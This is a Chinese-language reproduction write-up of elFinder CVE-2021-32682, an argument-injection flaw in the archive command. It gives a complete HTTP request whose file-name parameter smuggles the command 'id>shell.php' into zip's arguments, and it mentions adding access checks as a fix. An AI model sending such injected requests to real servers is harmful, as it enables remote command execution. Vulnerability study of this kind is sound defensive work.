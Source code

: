 # elFinder ZIP 参数与任意命令注入（CVE-2021-32682）

> 漏洞说明

elFinder是一个基于PHP、Jquery的开源文件管理系统。

在elFinder 2.1.48及以前的版本中，存在一处参数注入漏洞。攻击者可以利用这个漏洞在目标服务器上执行任意命令，即使是最小化安装的elFinder。

这个漏洞的原因除了参数注入外，还有默认情况下的未授权访问，因此我们可以对elFinder增加权限校验，避免任意用户操作服务器上的文件，进而避免被执行任意命令。



> 前提条件



> 利用工具



> 漏洞复现

启动环境，访问http://192.168.40.77:8080/，新建普通文本文件1.txt

![image-20230103004140210](../img/elFinder_CVE-2021-32682/image-20230103004140210.png)

打包成压缩文件2.zip

![image-20230103004210443](../img/elFinder_CVE-2021-32682/image-20230103004210443.png)

开启bp抓包，抓取2.zip压缩打包3.zip请求包，修改请求包，将id输入到shell.php文件

```http
GET http://192.168.40.77:8080/php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%203.zip&target=l1_Lw&targets%5B%5D=l1_Mi56aXA&type=application%2Fzip&reqid=18572a39b101ef HTTP/1.1
Host: 192.168.40.77:8080
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.40.77:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=0bcfdc58fc7e29a946e17cdf3deaa598
Connection: close

```

执行结果报错，但实际上命令已成功执行

![image-20230103004303625](../img/elFinder_CVE-2021-32682/image-20230103004303625.png)
